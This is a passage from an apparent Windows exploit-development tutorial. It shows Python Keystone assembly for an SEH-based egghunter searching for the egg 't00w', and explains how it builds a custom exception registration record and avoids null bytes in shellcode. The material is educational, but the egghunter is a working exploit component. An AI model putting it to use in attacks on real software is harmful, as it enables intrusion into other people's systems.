 ```python
 # check for signature again  
" jmp is_egg ;"  
" get_seh_address: "  
 # call to a higher address to avoid null bytes & push  
 # return to obtain egghunter position
 " call build_exception_record ;"  
 # push 0x0c onto the stack  
" push 0x0c ;"  
 # pop the value into ecx  
" pop ecx ;"  
 # mov into eax the pointer to the CONTEXT  
 # structure for our exception
 " mov eax, [esp+ecx] ;"  
 # mov 0xb8 into ecx which will act as an  
 # offset to the eip
 " mov cl, 0xb8 ;"  
 # increase the value of eip by 0x06 in our CONTEXT  
 # so it points to the "or bx, 0xfff" instruction 
 # to increase the memory page
 " add dword ptr ds:[eax+ecx], 0x06 ;"  
 # save return value into eax  (IF YOU ANALYZE THIS DEEPLY YOU WILL FIND THAT THE ADDRESS OF PUSH 0x0C is on top of the stack, so doing a pop will store it)
" pop eax ;"  
 # increase esp to clean the stack for our call  
" add esp, 0x10 ;"  
 # push return value back into the stack  
" push eax ;"  
 # null out eax to simulate  
 # ExceptionContinueExecution return
 " xor eax, eax ;"  
 # return  
" ret ;"  
)  
# Initialize engine in X86-32bit mode  
ks = Ks(KS_ARCH_X86, KS_MODE_32)
```

The code starts by executing a JMP instruction to a later part in the code, the `get_seh_address` label.
In this label, the first instruction is a **relative CALL** to the `build_exception_record` function.
When executing a **relative call, the opcodes will match the offset from the current value of EIP.** This would generate opcodes, but, as we are calling a **function that is declared previosly in the code, the offset is negative, and we are doing a backward call, so there are not nullbytes as the offset is negative.** That is why we declare our `build_exception_record` **after** in the code (Note: we learnt that the disposition of the labels **is very important when doing shellcode!**).
Also, as we are doing a **call** operation, the return address is stored in the stack (the CALL instruction does that) so that the program knows where to continue after the `build_exception_record` function has finished. 
The `build_exception_record` function starts by popping the return value (which has just been stored in the stack, and represents the location of our egghunter) into the ecx register.
Then, the egg signature (0x74303077, t00w in little endian, remember that to store numbers and strings we have to store them in little endian) is moved to the eax register.
Then, we are going to add the two values of the `_EXCEPTION_REGISTRATION_RECORD` structure in the stack, as we want to build our own `_EXCEPTION_REGISTRATION_RECORD`. We push our return address pointing to the next instruction after our CALL instruction (this is the value of the push 0x0c instruction) as the "Handler" member of the `_EXCEPTION_REGISTRATION_RECORD` structure, and then we push the value of "-1" (0xffffffff) as our Next member. This signals **that this registration record is tha last one, as there is no next member!**. The OS won't search for more handlers after this one.
Then, we overwrite the **first exception handler** (that is pointed by `fs:[0]`) by nulling ebx, and putting the value of `fs[ebx]` to the values on the top of the stack. Wow! We just pushed both values of the `_EXCEPTION_REGISTRATION_RECORD` in the top of the stack! This basically overwrites the first exception handler for our custom one.